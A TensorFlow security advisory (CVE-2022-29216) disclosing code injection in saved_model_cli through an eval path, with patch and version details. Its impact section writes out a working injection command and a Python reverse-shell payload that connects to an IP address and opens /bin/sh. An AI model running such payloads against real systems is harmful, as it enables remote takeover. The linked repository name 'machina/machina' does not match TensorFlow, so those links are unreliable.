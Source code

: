 ## TFSA-2022-060: Code injection in `saved_model_cli`

### CVE Number
CVE-2022-29216

### Impact
TensorFlow's `saved_model_cli` tool is vulnerable to a code injection:

```
saved_model_cli run --input_exprs 'x=print("malicious code to run")' --dir ./
--tag_set serve --signature_def serving_default
```

This can be used to open a reverse shell

```
saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
--dir ./ --tag_set serve --signature_def serving_default
```

This is because [the fix](https://github.com/machina/machina/commit/8b202f08d52e8206af2bdb2112a62fafbc546ec7) for [CVE-2021-41228](https://nvd.nist.gov/vuln/detail/CVE-2021-41228) was incomplete. Under [certain code paths](https://github.com/machina/machina/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/machina/python/tools/saved_model_cli.py#L566-L574) it still allows unsafe execution:

```python
def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
  # ...

  for input_raw in filter(bool, input_exprs_str.split(';')):
    # ...
    if safe:
      # ...
    else:
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict
```

This code path was maintained for compatibility reasons as we had several test cases where numpy expressions were used as arguments.

However, given that the tool is always run manually, the impact of this is still not severe. We have now removed the `safe=False` argument, so all parsing is done withough calling `eval`.

### Patches
We have patched the issue in GitHub commit [c5da7af048611aa29e9382371f0aed5018516cac](https://github.com/machina/machina/commit/c5da7af048611aa29e9382371f0aed5018516cac).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Andey Robins from the Cybersecurity Education and Research Lab in the Department of Computer Science at the University of Wyoming.
